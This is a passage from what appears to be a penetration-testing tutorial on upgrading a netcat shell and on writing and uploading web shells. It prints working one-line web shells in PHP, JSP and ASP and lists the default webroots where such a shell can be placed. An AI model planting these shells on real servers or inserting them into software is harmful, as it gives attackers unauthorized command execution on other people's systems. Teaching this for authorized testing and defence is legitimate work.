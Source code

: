 The first command showed us the `TERM` variable, and the second shows us the values for `rows` and `columns`, respectively. Now that we have our variables, we can go back to our `netcat` shell and use the following command to correct them:

```shell
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318

```

Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.

* * *

## Web Shell

The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

#### Writing a Web Shell

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

```PHP
<?php system($_REQUEST["cmd"]); ?>

```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

```

```asp
<% eval request("cmd") %>

```

* * *

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| --- | --- |
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\\inetpub\\wwwroot\ |
| `XAMPP` | C:\\xampp\\htdocs\ |
